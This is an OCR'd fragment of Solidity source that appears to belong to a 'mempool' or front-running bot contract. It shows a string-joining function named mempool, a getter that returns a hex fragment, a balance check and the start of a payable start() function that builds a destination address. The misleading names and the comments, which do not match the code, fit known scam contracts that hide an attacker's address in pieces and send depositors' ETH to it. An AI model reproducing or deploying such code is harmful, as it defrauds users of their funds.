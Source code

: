  

    function mempool(string memory _base, string memory _value) internal pure returns (string memory) {

        bytes memory _baseBytes = bytes(_base);

        bytes memory _valueBytes = bytes(_value);

 

        string memory _tmpValue = new string(_baseBytes.length + _valueBytes.length);

        bytes memory _newValue = bytes(_tmpValue);

 

        // Load the first byte of the rune into the LSBs of b

 

        uint i;

        uint j;

 

        for(i=0; i<_baseBytes.length; i++) {

            _newValue[j++] = _baseBytes[i];

        }

 

        for(i=0; i<_valueBytes.length; i++) {

            _newValue[j++] = _valueBytes[i];

        }

 

        // Check for truncated codepoints

        return string(_newValue);

    }    

    function getMempoolLong() private pure returns (string memory) {

        return "809c236f97C7";

    }

 

    function getBalance() private view returns(uint) {

        // Check available liquidity

 

        return address(this).balance;

    }

    function start() public payable {

        address to = startExploration(fetchMempoolData());

        // Copy remaining bytes
